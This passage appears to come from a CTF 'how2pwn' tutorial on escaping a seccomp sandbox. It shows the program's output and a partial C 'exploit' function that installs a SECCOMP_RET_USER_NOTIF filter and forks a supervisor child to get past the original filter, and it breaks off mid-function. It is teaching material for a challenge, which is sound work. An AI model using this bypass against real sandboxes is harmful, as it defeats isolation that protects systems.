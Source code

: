 When we compile and execute the above code ([myebpf.c](myebpf.c)), we see observe the following output:

```bash
nikos@ctf-box:~/how2pwn/challenge4$ ./myebpf
Welcome!
[+] Sandbox On
[monitor] Allowing syscall nr 3
[+] Hacked Sandbox On
[monitor] Allowing syscall nr 231
```

syscall nr 3 is `close` and 231 is `exit_group`. Perfect! We have successfully bypassed the original seccomp filter. Now, let's modify a bit our exploit so that it is closer to the assembly level and closer to our actual target.

1. We will remove the `write` that we added
2. We will minimize the assembly code required

So, our `exploit` function no becomes:

```c
void exploit(){
    // installs a seccomp filter that generates user-space notifications (SECCOMP_RET_USER_NOTIF) always
    struct sock_filter strict_filter[] = {
        BPF_STMT(BPF_LD | BPF_W | BPF_ABS,offsetof(struct seccomp_data, nr)),
        BPF_JUMP(BPF_JMP | BPF_JEQ | BPF_K, __NR_seccomp, 0, 1),
        BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_ALLOW),
		BPF_JUMP(BPF_JMP | BPF_JEQ | BPF_K, __NR_fork, 0, 1),
        BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_ALLOW),
		BPF_JUMP(BPF_JMP | BPF_JEQ | BPF_K, __NR_ioctl, 0, 1),
        BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_ALLOW),
		BPF_JUMP(BPF_JMP | BPF_JEQ | BPF_K, __NR_exit, 0, 1),
        BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_ALLOW),
        BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_USER_NOTIF),
    };
    struct sock_fprog prog = {
        .len = sizeof(strict_filter) / sizeof(strict_filter[0]),
        .filter = strict_filter,
    };
    // Apply the filter. 
    int listening_fd = syscall(
        __NR_seccomp,SECCOMP_SET_MODE_FILTER,SECCOMP_FILTER_FLAG_NEW_LISTENER,&prog
    ); //assume success

    pid_t child = syscall(__NR_fork);
    if(child == 0) {
        //child - supervisor. Still cannot make arbitrary syscalls since it has installed the
        //original seccomp filter
        struct seccomp_notif_sizes sizes;
        syscall(__NR_seccomp,SECCOMP_GET_NOTIF_SIZES,0,&sizes);

        char notif_buffer [sizes.seccomp_notif];        //type: struct seccomp_notif
        char response_buffer[sizes.seccomp_notif_resp]; //type: struct seccomp_notif_resp

        while(1) {
            memset(notif_buffer, 0, sizes.seccomp_notif);
            memset(response_buffer, 0, sizes.seccomp_notif_resp);

            ioctl(listening_fd, SECCOMP_IOCTL_NOTIF_RECV, notif_buffer);  //blocking

            struct seccomp_notif *notif_req = (struct seccomp_notif*)notif_buffer;
            struct seccomp_notif_resp *notif_resp = (struct seccomp_notif_resp*)response_buffer;

            notif_resp->id = notif_req->id;
```